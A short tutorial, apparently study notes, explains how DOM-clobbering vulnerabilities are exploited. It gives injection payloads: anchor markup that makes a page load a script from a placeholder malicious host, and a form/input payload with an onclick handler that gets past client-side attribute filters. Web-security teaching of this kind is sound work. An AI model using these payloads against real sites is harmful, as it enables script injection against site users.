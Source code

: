 ### How to exploit DOM-clobbering vulnerabilities
A common pattern used by JavaScript developers is:
`var someObject = window.someObject || {};`

If you can control some of the HTML on the page:
- you can clobber the `someObject` reference with a DOM node, such as an anchor.

Consider the following code:
```javascript
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

To exploit this vulnerable code:
- you could inject the following HTML to clobber the `someObject` reference with an anchor element:
  `<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`

As the two anchors use the same ID:
- the DOM groups them together in a DOM collection. 
- The DOM clobbering vector then:
	- overwrites the `someObject` reference with this DOM collection.
	- A `name` attribute is used on the last anchor element in order to:
		- clobber the `url` property of the `someObject` object,
			- which points to an external script.


Another common technique is:
- to use a `form` element along with an element such as `input` to clobber DOM properties.

For example, clobbering the `attributes` property enables you to:
- bypass client-side filters that use it in their logic. 
- Although the filter will enumerate the `attributes` property:
	- it will not actually remove any attributes 
		- because the property has been clobbered with a DOM node
		  
- As a result, you will be able to:
	- inject malicious attributes that would normally be filtered out

For example, consider the following injection:
`<form onclick=alert(1)><input id=attributes>Click me`

In this case, the client-side filter:
- would traverse the DOM and encounter a whitelisted `form` element.
- Normally, the filter would:
	- loop through the `attributes` property of the `form` element 
	- and remove any blacklisted attributes.
	  
- However, because the `attributes` property has been clobbered with the `input` element,:
	- the filter loops through the `input` element instead. 
	- As the `input` element has an undefined length:
		- the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met
		- and the filter simply moves on to the next element instead
		  